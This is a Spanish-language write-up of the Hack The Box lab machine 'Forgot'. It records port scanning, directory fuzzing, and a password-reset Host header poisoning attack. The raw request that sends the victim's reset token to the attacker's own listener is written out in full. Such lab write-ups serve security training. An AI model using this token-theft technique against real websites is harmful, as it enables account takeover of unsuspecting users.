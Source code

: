 ```yaml
---
title: Forgot Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Medium]
image:
  path: ../../assets/img/commons/Forgot/Forgot.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- -sS --min-rate 5000 --open -v -n -Pn 10.10.11.188 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:34 -05
Initiating SYN Stealth Scan at 00:34
Scanning 10.10.11.188 [65535 ports]
Discovered open port 80/tcp on 10.10.11.188
Discovered open port 22/tcp on 10.10.11.188
Completed SYN Stealth Scan at 00:34, 13.78s elapsed (65535 total ports)
Nmap scan report for 10.10.11.188
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80

```
❯ whatweb http://10.10.11.188
http://10.10.11.188 [503 Service Unavailable] Country[RESERVED][ZZ], HTML5, HTTPServer[Varnish], IP[10.10.11.188], Title[503 Backend fetch failed], UncommonHeaders[retry-after,x-varnish], Varnish, Via-Proxy[1.1 varnish (Varnish/6.2)]

```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sC -sV -p22,80 10.10.11.188 -oN Versions
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 00:55 -05
Nmap scan report for 10.10.11.188
Host is up (0.11s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http-proxy Varnish http accelerator
|_http-title: 503 Backend fetch failed
|_http-server-header: Varnish
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora fuzzeamos por directorios a ver qué encontramos.

`Nota:` Nos tiene que aparecer un panel de login en la propia web, si no te aparece reinicia la máquina (me sucedió por eso lo menciono)

```
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.188/FUZZ

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                       
=====================================================================

000000001:   200        245 L    484 W      5186 Ch     "# directory-list-2.3-medium.txt"                                             
000000007:   200        245 L    484 W      5186 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"             
000000008:   200        245 L    484 W      5186 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                  
000000003:   200        245 L    484 W      5186 Ch     "# Copyright 2007 James Fisher"                                               
000000010:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000005:   200        245 L    484 W      5186 Ch     "# This work is licensed under the Creative Commons"                          
000000014:   200        245 L    484 W      5186 Ch     "http://10.10.11.188/"                                                        
000000006:   200        245 L    484 W      5186 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"               
000000002:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000004:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000013:   200        245 L    484 W      5186 Ch     "#"                                                                           
000000009:   200        245 L    484 W      5186 Ch     "# Suite 300, San Francisco, California, 94105, USA."                         
000000012:   200        245 L    484 W      5186 Ch     "# on atleast 2 different hosts"                                              
000000011:   200        245 L    484 W      5186 Ch     "# Priority ordered case sensative list, where entries were found"            
000000038:   302        5 L      22 W       189 Ch      "home"                                                                        
000000053:   200        245 L    484 W      5189 Ch     "login"                                                                       
000001706:   200        252 L    498 W      5227 Ch     "forgot"                                                                      
000002357:   302        5 L      22 W       189 Ch      "tickets"                    

```
## Intrusión

En en código fuente podemos ver un usuario potencial

```html
<!-- Q1 release fix by robert-dev-145092 -->
```
Nos montamos un servidor con python por el puerto 80

```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora en la ruta **/forgot** que encontramos anteriormente colocamos el usuario que vimos. Realizamos la petición y capturamos la petición con Burpsuite y cambiamos el HOST por nuestra ip y el puerto donde tenemos el servidor

```
GET /forgot?username=robert-dev-145092 HTTP/1.1
Host: 10.10.16.47:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.11.188/forgot
```
Ahora interceptamos la petición de **/reset** colocando el token que nos dio de manera urlencodeada para luego iniciar sesión como **robert-dev-145092**. (Si no te funciona el token a la primera, intenta nuevamente con otro token que te da si te quedaste en escucha con python)

![Burpsuite]({{ 'assets/img/commons/Forgot/Burp.png' | relative_url }}){: .center-image }
_Petición por Burp_ 
